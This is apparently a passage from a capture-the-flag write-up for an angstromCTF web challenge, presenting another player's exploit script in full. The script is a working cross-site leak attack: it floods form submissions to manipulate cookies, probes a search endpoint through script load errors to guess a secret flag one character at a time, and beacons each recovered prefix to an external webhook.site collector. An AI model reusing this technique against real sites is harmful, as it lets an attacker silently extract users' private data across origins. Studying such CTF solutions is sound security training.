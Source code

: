 Here is his exploit script:

```html
<>'";<form action='https://sustenance.web.actf.co/s' method=POST><input id=f /><input name=search value=a /></form>
    <script>
        const $ = document.querySelector.bind(document);
        const sleep = (ms) => new Promise(r => setTimeout(r, ms));
        let i = 0;
        const stuff = async(len = 3500) => {
            let name = Math.random();
            $("form").target = name;
            let w = window.open('', name);
            $("#f").value = "_".repeat(len);
            $("#f").name = i++;
            $("form").submit();
            await sleep(100);
        };
        const isError = async(url) => {
            return new Promise(r => {
                let script = document.createElement('script');
                script.src = url;
                script.onload = () => r(false);
                script.onerror = () => r(true);
                document.head.appendChild(script);
            });
        }
        const search = (query) => {
            return isError("https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query));
        };
        const alphabet = "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ";
        const url = "//webhook.site/fe29ff9f-908c-4508-9bbd-14848cf2c3f8";
        let known = "actf{";
        window.onload = async() => {
            navigator.sendBeacon(url + "?load");
            await Promise.all([stuff(), stuff(), stuff(), stuff()]);
            await stuff(1600);

            navigator.sendBeacon(url + "?go");
            while (true) {
                for (let c of alphabet) {
                    let query = known + c;
                    if (await search(query)) {
                        navigator.sendBeacon(url, query);
                        known += c;
                        break;
                    }
                }
            }
        };
    </script>
```
